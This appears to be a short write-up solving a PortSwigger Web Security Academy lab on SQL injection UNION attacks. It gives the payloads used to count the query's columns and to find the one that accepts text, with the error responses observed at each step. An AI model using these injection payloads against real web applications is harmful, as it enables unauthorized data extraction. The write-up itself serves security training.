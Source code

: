 ```yaml
---
title: 'Lab: SQL injection UNION attack, finding a column containing text'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/SQL"
---
```


# Lab: SQL injection UNION attack, finding a column containing text
<!-- more -->
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data. 
* Hint: The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data. 

## Exp
1. Determine how many columns it has
You can use the technique from previous question.
Payload: `?category=' UNION SELECT NULL,NULL,NULL--`
2. Start to guess which column contains text
For example: 
`?category=Accessories' UNION (SELECT 'a', NULL, NULL)--` $\to$ Internal Server Error
`?category=Accessories' UNION (SELECT NULL, 'a', NULL)--` $\to$ <font color="FF0000">No Error</font>
`?category=Accessories' UNION (SELECT NULL, NULL, 'a')--` $\to$ Internal Server Error

    **Then we can consider which column is text-based string**

    Payload: `?category=Accessories' UNION (SELECT NULL, 'DoimDt', NULL)--`
    :::spoiler Success Screenshot
    ![](https://imgur.com/LtSoc2E.png)
    :::

## Reference